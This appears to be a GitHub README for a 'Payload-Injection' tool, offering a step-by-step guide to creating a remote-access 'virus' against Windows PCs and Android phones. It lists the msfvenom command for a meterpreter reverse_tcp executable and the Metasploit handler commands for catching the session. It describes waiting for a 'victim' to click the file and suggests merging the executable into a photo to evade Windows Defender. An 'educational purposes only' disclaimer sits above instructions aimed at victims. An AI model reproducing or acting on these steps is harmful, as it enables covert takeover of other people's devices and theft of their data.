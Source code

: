 # [+]Warning!!
--------------------------------------------------------------------------------------------
Welcome everyone

This tool is for educational purposes only, and our goal is not to make people victims or cause any kind of danger we are not responsible for any damages due to improper use


# [+]About
--------------------------------------------------------------------------------------------
This is a payload creation machine Tool , To macke something like back door and so one to completely remote a PC or android phone Just one click on the file and u will be able to open a session and tunnel with your victim’s device with msfcosnsole Have a good time Good bye my friend …


 # [+]How to Download
open you terminal
git clone https://github.com/Essam0o/Payload-Injection.git


 # [+]How to Run
--------------------------------------------------------------------------------------------
After preparing your payload via Payload-injection tool you can open msfconsole and lunch your paylaod which has been created open your terminal as a root in any path and type

sodu su  
**msfvenom -p windows/meterpreter/reverse_tcp -f exe lhost = your ip lport = 4444 > FileName .exe**


Then wait to complete download the file and check your path on your os
  
**msfconsole**

wiat proccess// 


**use exploit/multi/handler**

**set payload windows/meterpreter/reverse_tcp**


**set lhost   enter your ip**

**set lport 4444**

**run**

 HERE WE ARE DONE OF CREATING A VIRUS ALL U NEED TO WAIT THE VICTIM TO CLICK ON THE APK  OR EXE FILE
 Tip 
 you can merge yout exe file in a photo to prevent windows defentyer detect the virus , or merge it by the way you like it

Happy hacking , Good luck friend
